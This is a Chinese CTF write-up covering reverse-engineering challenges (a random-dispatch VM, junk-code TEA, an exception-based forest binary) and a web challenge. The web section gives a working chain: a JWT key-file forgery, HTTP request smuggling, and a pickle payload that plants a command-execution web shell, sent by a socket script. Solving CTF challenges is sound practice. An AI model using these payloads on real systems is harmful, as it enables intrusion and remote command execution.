## RandomVM

虚拟机，每个函数一条指令，随机数（种子确定）选择下一个函数。

在`temp`相关逻辑下条件断点获得逻辑（因为temp的后面部分就是存储变化后的flag）：



```
syscall(0, 0, 94061302087810, 1)
data[2] = 97
temp[0] = temp[0] ^ data[2] = 0 ^ 97 = 97
temp[1] = data[2]:97
temp[1] = 移位(97, data[2]:3) = 44
temp[1] = temp[1] ^ data[2] = 44 ^ 3 = 47
syscall(0, 0, 94061302087812, 1)
data[4] = 98
temp[1] = temp[1] ^ data[4] = 47 ^ 98 = 77
temp[2] = data[4]:98
// 尝试进行ptrace, 成功为0, 失败为-1
// 反调试, 正常应该为0
syscall(101, 0, 94061302087814, 0)
data[6] = 0
temp[2] = 移位(98, data[4]:5) = 19
syscall(0, 0, 94061302087814, 1)
data[6] = 99
temp[2] = temp[2] ^ data[6] = 19 ^ 99 = 112


temp[3] = data[6]:99
syscall(101, 0, 94061302087816, 0)
data[8] = 0
temp[3] = 移位(99, data[6]:6) = 141
syscall(0, 0, 94061302087816, 1)
data[8] = 100
temp[3] = temp[3] ^ data[8] = 141 ^ 100 = 233


temp[4] = data[8]:100
temp[4] = 移位(100, data[8]:7) = 200
temp[4] = temp[4] ^ data[8] = 200 ^ 7 = 207
syscall(0, 0, 94061302087818, 1)
data[10] = 101
temp[4] = temp[4] ^ data[10] = 207 ^ 101 = 170


temp[5] = data[10]:101
temp[5] = 移位(101, data[10]:4) = 86
temp[5] = temp[5] ^ data[10] = 86 ^ 4 = 82
syscall(0, 0, 94061302087820, 1)
data[12] = 102
temp[5] = temp[5] ^ data[12] = 82 ^ 102 = 52


temp[6] = data[12]:102
temp[6] = 移位(102, data[12]:4) = 102
syscall(0, 0, 94061302087822, 1)
data[14] = 103
temp[6] = temp[6] ^ data[14] = 102 ^ 103 = 1


temp[7] = data[14]:103
temp[7] = 移位(103, data[14]:7) = 206
temp[7] = temp[7] ^ data[14] = 206 ^ 7 = 201
syscall(0, 0, 94061302087824, 1)
data[16] = 104
temp[7] = temp[7] ^ data[16] = 201 ^ 104 = 161


temp[8] = data[16]:104
temp[8] = 移位(104, data[16]:7) = 208
syscall(0, 0, 94061302087826, 1)
data[18] = 105
temp[8] = temp[8] ^ data[18] = 208 ^ 105 = 185


temp[9] = data[18]:105
syscall(101, 0, 94061302087828, 0)
data[20] = 0
temp[9] = 移位(105, data[18]:2) = 90
syscall(0, 0, 94061302087828, 1)
data[20] = 106
temp[9] = temp[9] ^ data[20] = 90 ^ 106 = 48


temp[10] = data[20]:106
temp[10] = 移位(106, data[20]:4) = 166
syscall(0, 0, 94061302087830, 1)
data[22] = 107
temp[10] = temp[10] ^ data[22] = 166 ^ 107 = 205


temp[11] = data[22]:107
temp[11] = 移位(107, data[22]:4) = 182
syscall(0, 0, 94061302087832, 1)
data[24] = 10
temp[11] = temp[11] ^ data[24] = 182 ^ 10 = 188


temp[12] = data[24]:10
temp[12] = 移位(10, data[24]:7) = 20
temp[12] = temp[12] ^ data[24] = 20 ^ 7 = 19


data[24] = temp[1] = 77
temp[2] = temp[2] ^ data[24] = 112 ^ 77 = 61
data[24] = temp[2] = 61
temp[3] = temp[3] ^ data[24] = 233 ^ 61 = 212
data[24] = temp[3] = 212
temp[4] = temp[4] ^ data[24] = 170 ^ 212 = 126
data[24] = temp[4] = 126
temp[5] = temp[5] ^ data[24] = 52 ^ 126 = 74
data[24] = temp[5] = 74
temp[6] = temp[6] ^ data[24] = 1 ^ 74 = 75
data[24] = temp[6] = 75
temp[7] = temp[7] ^ data[24] = 161 ^ 75 = 234
data[24] = temp[7] = 234
temp[8] = temp[8] ^ data[24] = 185 ^ 234 = 83
data[24] = temp[8] = 83
temp[9] = temp[9] ^ data[24] = 48 ^ 83 = 99
data[24] = temp[9] = 99
temp[10] = temp[10] ^ data[24] = 205 ^ 99 = 174
data[24] = temp[10] = 174
temp[11] = temp[11] ^ data[24] = 188 ^ 174 = 18
data[24] = temp[11] = 18
temp[12] = temp[12] ^ data[24] = 19 ^ 18 = 1
```

写出脚本：

```Python
from z3 import *

s = Solver()
input = [BitVec(f'input[{i}]', 8) for i in range(12)]
def offset(n, o):
    return ((n >> o) | (n << (8 - o))) & 0xff

result = [0] * 12

input[0] = offset(input[0], 3)
input[0] = input[0] ^ 3
result[0] = input[0] ^ input[1]

input[1] = offset(input[1], 5)
result[1] = input[1] ^ input[2]

input[2] = offset(input[2], 6)
result[2] = input[2] ^ input[3]

input[3] = offset(input[3], 7)
result[3] = input[3] ^ input[4] ^ 7

input[4] = offset(input[4], 4)
result[4] = input[4] ^ input[5] ^ 4

input[5] = offset(input[5], 4)
result[5] = input[5] ^ input[6]

input[6] = offset(input[6], 7)
result[6] = input[6] ^ input[7] ^ 7

input[7] = offset(input[7], 7)
result[7] = input[7] ^ input[8]

input[8] = offset(input[8], 2)
result[8] = input[8] ^ input[9]

input[9] = offset(input[9], 4)
result[9] = input[9] ^ input[10]

input[10] = offset(input[10], 4)
result[10] = input[10] ^ input[11]

input[11] = offset(input[11], 7)
result[11] = input[11] ^ 7

result[1] = result[0] ^ result[1]
result[2] = result[1] ^ result[2]
result[3] = result[2] ^ result[3]
result[4] = result[3] ^ result[4]
result[5] = result[4] ^ result[5]
result[6] = result[5] ^ result[6]
result[7] = result[6] ^ result[7]
result[8] = result[7] ^ result[8]
result[9] = result[8] ^ result[9]
result[10] = result[9] ^ result[10]
result[11] = result[10] ^ result[11]

r = [0x9D, 0x6B, 0xA1, 0x02, 0xD7, 0xED, 0x40, 0xF6, 0x0E, 0xAE, 0x84, 0x19]
for i in range(12):
    s.add(result[i] == r[i])
flag = []
if s.check() == sat:
    model = s.model()
    for i in range(len(model)):
        for decls in model.decls():
            if(decls.name()==('input[%d]' % i)):
                flag.append(int('%s' % model[decls]))
                break
    print(f"d3ctf{{{bytes(flag).decode()}}}")
# d3ctf{m3owJumpVmvM}
```

## ezjunk

直接开始动调，走哪看哪。

在执行main之前，先执行了这个：

```C
__int64 sub_401C50()
{
  void (**v0)(void); // rbx
  __int64 *v1; // rsi
  unsigned int i; // eax

  for ( i = 0; qword_403350[i + 1]; ++i )
    ;
  if ( i )
  {
    v0 = (void (**)(void))&qword_403350[i];
    v1 = &qword_403350[i - (unsigned __int64)(i - 1) - 1];
    do
      (*v0--)();
    while ( v0 != (void (**)(void))v1 );
  }
  return sub_401510(sub_401C10);
}
```

动调进调用的函数，存在反调试：



不能修改这里的花指令，因为`0x4015C5`的数据后面要用到。

在`jz`强制跳转，到这里，修改了部分数据，后面会用到：



然后在这里，程序获取输入：



获取输入完，在这里：`sub_401917`为类似TEA加密，`sub_401663`为结果比较，数据在`unk_404360`。



脚本解完发现是fakeflag：

```Python
NUM = 0xE8017300  # 0x4015C5
DELTA = 0xFF58F981  # 0x401A1C
KEY = [0x00005454, 0x00004602, 0x00004477, 0x00005E5E]

result = [0xB1, 0xCB, 0x06, 0x54, 0xA2, 0x1E, 0xA4, 0xA4, 0xC5, 0x9A, 0x48, 0x34, 0x97, 0x87, 0xD6, 0x53, 0x6F, 0xC0, 0xE0, 0xB8, 0xDB, 0xF2, 0x59, 0x02, 0x82, 0x8D, 0xE3, 0x52, 0x1D, 0x5E, 0x5D, 0x59]
result = list(struct.unpack("<8I", bytes(result)))

def dec(c, key, num, delta):
    num = 0xfce242e0
    for _ in range(32):
        num = (num + delta) & 0xffffffff
        t = (c[0] + ((c[0] * 32) ^ (c[0] >> 6))) ^ (key[(num >> 11) & 3] + num) ^ 0x33
        t &= 0xffffffff
        c[1] = (c[1] - t) & 0xffffffff
        t = (c[1] + ((c[1] * 16) ^ (c[1] >> 5))) ^ (key[num & 3] + num) ^ 0x44
        t &= 0xffffffff
        c[0] = (c[0] - t) & 0xffffffff
    return c

flag = b''
for i in range(0, 8, 2):
    p = dec(result[i:i + 2], KEY, NUM, DELTA)
    p = struct.pack("<2I", *p)
    flag += p
print(flag)
```

上面`sub_401C50`其实还进了一个函数，它注册了一个在退出时运行的函数，直接在初测的函数下断点（`call`完注册的函数地址在`rax`）。



输入错误，绕过fakeflag的检查，程序`exit`，进入了注册的函数：

```C
void (*sub_401C10())(void)
{
    void (*result)(void); // rax
    result = (void (*)(void))*off_404380;
    if ( *off_404380 )
    {
        do
        {
            result();
            result = (void (*)(void))off_404380[1];
            ++off_404380;
        }
        while ( result );
    }
    return result;
}
```

借着其调用了`sub_4016BC`。

这些花指令可以直接nop掉：



就可以看到flag的逻辑了：

```C
size_t sub_4016BC()
{
    ...
    Str[0] = 90;
    Str[1] = 4;
    qmemcpy(v4, "85p6<17p6?\"=1$p9#p4c3$6+-Z\"978$q", sizeof(v4));
    v2[0] = 0xB6DDB3A9;
    v2[1] = 0x36162C23;
    v2[2] = 0x1889FABF;
    v2[3] = 0x6CE4E73B;
    v2[4] = 0xA5AF8FC;
    v2[5] = 0x21FF8415;
    v2[6] = 0x44859557;
    v2[7] = 0x2DC227B7;
    for ( i = 0; i <= 7; ++i )
    {
        for ( j = 0; j <= 31; ++j )
        {
            if ( (dword_408040[i] & 0x80000000) != 0 )
            {
                dword_408040[i] *= 2;
                v0 = dword_408040[i] ^ 0x84A6972F;
            }
            else
            {
                v0 = 2 * dword_408040[i];
            }
            dword_408040[i] = v0;
        }
        if ( v2[i] != dword_408040[i] )
            exit(0);
    }
    for ( k = 0; ; ++k )
    {
        result = strlen(Str);
        if ( k >= result )
            break;
        putchar(Str[k] ^ 0x50);
    }
    return result;
}
```

脚本解flag：

```Python
NUM = 0xE8017300
DELTA = 0xFF58F981
KEY = [0x00005454, 0x00004602, 0x00004477, 0x00005E5E]

def dec(c, key, num, delta):
    num = 0xfce242e0
    for _ in range(32):
        num = (num + delta) & 0xffffffff
        t = (c[0] + ((c[0] * 32) ^ (c[0] >> 6))) ^ (key[(num >> 11) & 3] + num) ^ 0x33
        t &= 0xffffffff
        c[1] = (c[1] - t) & 0xffffffff
        t = (c[1] + ((c[1] * 16) ^ (c[1] >> 5))) ^ (key[num & 3] + num) ^ 0x44
        t &= 0xffffffff
        c[0] = (c[0] - t) & 0xffffffff
    return c

result = [
    0xB6DDB3A9,0x36162C23,0x1889FABF,0x6CE4E73B,
    0xA5AF8FC,0x21FF8415,0x44859557,0x2DC227B7
]

for i in range(8):
    for j in range(32):
        if result[i] & 1 == 1:
            result[i] ^= 0x84A6972F
            result[i] >>= 1
            result[i] |= 0x80000000
        else:
            result[i] >>= 1
print([hex(i) for i in result])
flag = b''
for i in range(0, 8, 2):
    p = dec(result[i:i + 2], KEY, NUM, DELTA)
    p = struct.pack("<2I", *p)
    flag += p
print(flag)
# b'd3ctf{ea3yjunk_c0d3_4nd_ea5y_re}'
```

## d3pythonhttp

### pickle



注意：自己定义的class，一定要把初值写进`__init__`。

`pickle.loads`是一个供调用的接口，其底层实现是基于`_Unpickler`类。

利用`pickletools`可以反汇编一个已经被打包的字符串、优化一个已经被打包的字符串、返回一个迭代器来供程序使用。


1. `\x80`：机器立刻再去字符串读取一个字节，得到协议号。
2. `c`：GLOBAL操作符，连续读取两个字符串，规定以`\n`为分割，接下来把其压进栈。
3. `)`：把一个空的tuple压入当前栈。
4. `x81`：从栈中先弹出一个元素，记为`args`；再弹出一个元素，记为`cls`。
   1. 执行`cls.__new__(cls, *args)` ，然后把得到的东西压进栈。
   2. 从栈中弹出一个参数和一个class，然后利用这个参数实例化class，把得到的实例压进栈。
5. `}`：把一个空的dict压进栈。
6. `MARK`：
   1. `load_mark`：
      1. 把当前栈这个整体，作为一个list，压进前序栈。
      2. 把当前栈清空。
   2. `pop_mark`：它没有操作符，只供其他的操作符来调用。
      1. 记录一下当前栈的信息，作为一个list，在`load_mark`结束时返回。
      2. 弹出前序栈的栈顶，用这个list来覆盖当前栈。
7. `V`：读入一个字符串，以`\n`结尾，然后把这个字符串压进栈中。
8. `u`操作符：
   1. 调用`pop_mark`，把当前栈的内容扔进一个数组`arr`，然后把当前栈恢复到MARK时的状态。
   2. 执行完成之后，`arr=['name', 'rxz', 'grade', 'G2']`，当前栈里面存的是`__main__.Student`这个类、一个空的`dict`。
   3. 拿到当前栈的末尾元素，规定必须是一个`dict`。这里，读到了栈顶那个空`dict`。
   4. 两个一组地读`arr`里面的元素，前者作为key，后者作为value，存进上一条所述的`dict`。
9. `b：BUILD指令。`
   1. 把当前栈栈顶存进`state`，然后弹掉。
   2. 把当前栈栈顶记为`inst`，然后弹掉。

#### 利用

##### `__reduce__`

`__reduce__`方法的指令码是`R`，其作用为：

- 取当前栈的栈顶记为`args`，然后把它弹掉。
- 取当前栈的栈顶记为`f`，然后把它弹掉。
- 以`args`为参数，执行函数`f`，把结果压进当前栈。

```Python
class obj():
    def __init__(self):
        ...
    def __reduce__(self):
        return (os.system, ('ls /',))
```

#####  Build指令

逻辑：如果`inst`拥有`__setstate__`方法，则把`state`交给`__setstate__`方法来处理；否则的话，直接把`state`这个`dist`的内容，合并到`inst.__dict__ `里面。



如果对象原先是没有`__setstate__`这个方法的，那么利用`{'__setstate__': os.system}`来BUILE这个对象，那么现在对象的`__setstate__`就变成了`os.system`；接下来利用`"ls /"`来再次BUILD这个对象，则会执行`setstate("ls /")` ，而此时`__setstate__`已经被设置为`os.system`，因此实现了RCE。


#### pker

[EddieIvan01/pker: Automatically converts Python source code to Pickle opcode ](https://github.com/eddieivan01/pker)

使用pker可以帮助构造payload。

```shell
PS ...> Get-Content .\exp.py | python .\pker.py
b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'exec\'\ntRp6\n0g6\n(S\'index.GET = lambda self:__import__("os").popen(web.input().cmd).read()\'\ntR.'
```

### HTTP请求走私

👉[浅谈HTTP请求走私](https://xz.aliyun.com/t/7501?time__1311=n4%2BxnD0G0%3DdGqOrDlhI2qiKitG8QkOCY4D)

前后端服务器解析差异会导致前后端收到的数据可能不一样。

> 1. 前置服务器认为 `Content-Length` 优先级更高（或者根本就不支持 `Transfer-Encoding` ） ，后端认为 `Transfer-Encoding` 优先级更高。
> 2. 前置服务器认为 `Transfer-Encoding` 优先级更高，后端认为 `Content-Length` 优先级更高（或者不支持 `Transfer-Encoding` ）。
> 3. 前置和后端服务器都支持 `Transfer-Encoding`，但可以通过混淆让它们在处理时产生分歧，其实也就是变成了 CL-TE 或 TE-CL。

### 解题

JWT验证：

```Python
def get_key(kid):
    key = ""
    dir = "/app/"
    try:
        with open(dir+kid, "r") as f:
            key = f.read()
    except:
        pass
    print(key)
    return key

def verify_token(token):
    header = jwt.get_unverified_header(token)
    kid = header["kid"]
    key = get_key(kid)
    try:
        payload = jwt.decode(token, key, algorithms=["HS256"])
        return True
    except:
        return False
    
@app.route('/admin', methods=['GET', 'POST'])
def admin():
    token = request.cookies.get('token')
    if token and verify_token(token):
        if request.method == 'POST':
            if jwt.decode(token, algorithms=['HS256'], options={"verify_signature": False})['isadmin']:
                forward_url = "python-backend:8080"
                conn = http.client.HTTPConnection(forward_url)
                method = request.method
                headers = {key: value for (key, value) in request.headers if key != 'Host'}
                data = request.data
                path = "/"
                if request.query_string:
                    path += "?" + request.query_string.decode()
                if headers.get("Transfer-Encoding", "").lower() == "chunked":
                    data = "{}\r\n{}\r\n0\r\n\r\n".format(hex(len(data))[2:], data.decode())
                if "BackdoorPasswordOnlyForAdmin" not in data:
                    return "You are not an admin!"
                conn.request(method, "/backdoor", body=data, headers=headers)
                return "Done!"
            else:
                return "You are not an admin!"
        else:
            if jwt.decode(token, algorithms=['HS256'], options={"verify_signature": False})['isadmin']:
                return "Welcome admin!"
            else:
                return "You are not an admin!"
    else: 
        return redirect("/login", code=302)
```

密钥文件是可以自己指定，因此利用`app.py`：

```python
import jwt
user_info = {
    "username": "admin",
    "isadmin": True
}
key = open('./frontend/src/app.py').read()
payload = jwt.encode(user_info, key, algorithm="HS256", headers={"kid": "app.py"})
```

题目前后端对`data`的要求不一致：

```python
# 前端
if headers.get("Transfer-Encoding", "").lower() == "chunked":
    data = "{}\r\n{}\r\n0\r\n\r\n".format(hex(len(data))[2:], data.decode())
    if "BackdoorPasswordOnlyForAdmin" not in data:
        return "You are not an admin!"
    conn.request(method, "/backdoor", body=data, headers=headers)
    return "Done!"
else:
    return "You are not an admin!"

# 后端
class backdoor:
    def POST(self):
        data = web.data()
        print(f"data: {data}")
        # fix this backdoor
        if b"BackdoorPasswordOnlyForAdmin" in data:
            return "You are an admin!"
        else:
            data  = base64.b64decode(data)
            pickle.loads(data)
            return "Done!"
```

> 注意到前端拼接chunk data前判断Transfer-Encoding 特意转了小写，这说明flask底层处理http报文不会将其转小写（否则这就是多此一举）。
>
> 盲猜一把大写绕过。
>
> 现在就是前端走TE解析，后端走CL解析。

构造如下的包：

前端Flask会识别`Transfer-Encoding: CHUNKED`，从而解析到后面的`BackdoorPasswordOnlyForAdmin`。

后端web会识别`Content-Length: payload长度`，从而抛弃后面的`BackdoorPasswordOnlyForAdmin`。

```
POST /admin HTTP/1.1
Host: 47.103.122.127:30915
cookie:
token=eyJhbGciOiJIUzI1NiIsImtpZCI6Ii4uL2Rldi9udWxsIiwidHlwIjoiSldUIn0.ey
J1c2VybmFtZSI6InA0ZDBybiIsImlzYWRtaW4iOnRydWV9.0V1NFzZpxPFENM1DEi-
QvlmS_kl6a5trQY2y9hObUys
Content-Length: payload长度
Transfer-Encoding: CHUNKED
payload长度
payload...
1c
BackdoorPasswordOnlyForAdmin
```

最后利用后端服务器的`pickle`。

```python
getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
a = dict_get(builtins, '__builtins__')
exec = getattr(a, 'exec')
exec('index.GET = lambda self:__import__("os").popen(web.input().cmd).read()')
return
```

```python
import jwt
import base64
import socket
import pickle
import pker

user_info = {
    "username": "admin",
    "isadmin": True
}
key = open('./frontend/src/app.py').read()
payload = jwt.encode(user_info, key, algorithm="HS256", headers={"kid": "app.py"})

def send_chunked(data, host, port, cookie=''):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        message = 'POST /admin HTTP/1.1\r\n'
        message += 'Host: %s\r\n' % host
        message += 'Cookie: %s\r\n' % cookie
        message += 'Content-Length: %d\r\n' % len(data[0])
        message += 'Transfer-Encoding: CHUNKED\r\n\r\n'
        s.send(message.encode('utf-8'))
        for i in range(len(data)):
            s.send(('%X\r\n' % len(data[i])).encode())
            s.send((data[i] + '\r\n').encode())
        s.send(b'0\r\n\r\n')
        print("Chunks sent successfully.")

        response = ''
        while True:
            received = s.recv(1024)
            if not received: 
                break
            response += received.decode('utf-8')
        print("Server Response:\n", response)
    except Exception as e:
        print("Exception occured: ", e)
    finally:
        s.close()

tag = "BackdoorPasswordOnlyForAdmin"
cookie = "token=%s" % payload
ip = "139.224.222.124"
port = 31309

class obj():
    def __reduce__(self):
        return (eval, ('print("wowwww")',))
data = pickle.dumps(obj())
data = '''getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
a = dict_get(builtins, '__builtins__')
exec = getattr(a, 'exec')
exec('index.GET = lambda self:__import__("os").popen(web.input().cmd).read()')
return
'''
data = pker.cons(data)
data = base64.b64encode(data).decode()
print(data)
data = [data, tag]
send_chunked(data, host=ip, port=port, cookie=cookie)
```

## forest

学习

👉[D^3CTF2024逆向Writeup](https://www.52pojie.cn/thread-1918788-1-1.html#50237363_forest)

👉[d3ctf2024 reverse wp](https://oacia.dev/d3ctf-2024/)

### 分析

获取输入后，将其转化为二进制字符串。

然后进入`sub_431F50`：

这里面有`int3`，以及异常处理。

```assembly
.text:00431F71                 xor     eax, ebp
.text:00431F73                 mov     [ebp+var_1C], eax
.text:00431F76                 push    ebx
.text:00431F77                 push    esi
.text:00431F78                 push    edi
.text:00431F79                 push    eax
.text:00431F7A                 lea     eax, [ebp+ms_exc.registration]
.text:00431F7D                 mov     large fs:0, eax
.text:00431F83                 mov     [ebp+ms_exc.old_esp], esp
.text:00431F86                 mov     [ebp+flOldProtect], 0
.text:00431F8D                 lea     eax, [ebp+flOldProtect]
.text:00431F90                 push    eax             ; lpflOldProtect
.text:00431F91                 push    40h ; '@'       ; flNewProtect
.text:00431F93                 push    4840h           ; dwSize
.text:00431F98                 push    offset loc_436030 ; lpAddress
.text:00431F9D                 call    ds:VirtualProtect
.text:00431FA3                 test    eax, eax
.text:00431FA5                 jz      short loc_431FE0
.text:00431FA7 ;   __try { // __except at loc_431FBA
.text:00431FA7                 mov     [ebp+ms_exc.registration.TryLevel], 0
.text:00431FAE                 int     3               ; Trap to Debugger
